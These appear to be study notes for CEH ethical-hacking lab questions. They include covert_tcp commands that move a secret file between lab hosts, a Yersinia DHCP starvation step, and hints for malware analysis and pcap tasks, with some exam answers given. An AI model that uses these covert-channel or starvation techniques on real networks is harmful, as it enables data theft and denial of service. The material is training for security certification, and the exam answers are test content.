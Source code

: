 Flags can’t be obtained with tcp.
So download covert_TCP.c code file from online.
Identify src and dst port from the pcap file.
-> To make/send for practice: command: ./covert_tcp –source 10.0.2.15 -dest 10.0.2.4  -source_port 9999 –dest_port 8888 –file secret.txt
-> ./covert_tcp –source 10.0.2.15 -source_port 8888 –server –file receive.txt
++
Walkthrough on how to solve if .pcap file is given:
****https://github.com/Samsar4/Ethical-Hacking-Labs/blob/master/5-System-Hacking/10-Covert_TCP.md
7. You are a malware analyst working for CEHORG. During your assessment within your organisation’s network, you found a malware face.exe.
 The malware is extracted and placed at:
 C:\Users\Admin\Documents in the EH Workstation – 2 machine.
Task: Analyze the malware and find out the File position for KERNEL32.dll text.
Hint: Exclude zeros.
 Format: AANN
 
-> E drive->CEHTools->CEHv13 Module 07 Malware Threats\Malware Analysis Tools\Static Malware Analysis Tools\String Searching Tools\BinText
->browse the KERNEL32.dll> there maybe more than one pos.->search which one matches the given format(lellter_num)

8. Analyze an ELF executable (Sample-ELF) file placed at:(entrypoint) or (PEiD)
 C:\Users\Admin\Documents in the EH Workstation – 2 machine.
Task: Determine the CPU Architecture it was built for.
Format: AAAAAANN
->  Use DIE DetectItEasy tool->open elf file->fileinfo->Architecture. 
 
9. Perform Windows service monitoring and find out the service type associated with display name "afunix".
Format: aaaaa
-> E drive->CEHTools->CEHv13 Module 07 Malware Threats\Malware Analysis Tools\Dynamic->windows service manager->run .exe tool->properties
 

10. CEHORG has assigned you to analyze the snapshot of the operating system registry and perform further steps as part of dynamic analysis.
 Find out whether the driver packages registry is changed.
Give your response as Yes/No.
 Format: Aaa
Yes

12. CEHORG suspects a possible sniffing attack on a machine in its network.
 The network traffic data for the session is stored in the Documents folder in EH Workstation – 2 (Windows 11) machine as sniffsession.pcap.
Task: Analyze and find out the protocol used for sniffing.
 Format: AAA
-->ARP(packet sniffing protocol)

13. Use Yersinia on the "EH Workstation – 1" (Parrot Security) machine to perform the DHCP starvation attack.
 Analyze the network traffic generated during the attack and find the Transaction ID of the DHCP Discover packets.
Format: NaNNnaNNNN
Link: https://www.youtube.com/watch?v=IUO9gA14Q0c&ab_channel=FireShark
Time: 39:00 
-> parrot-> yersinia –I 
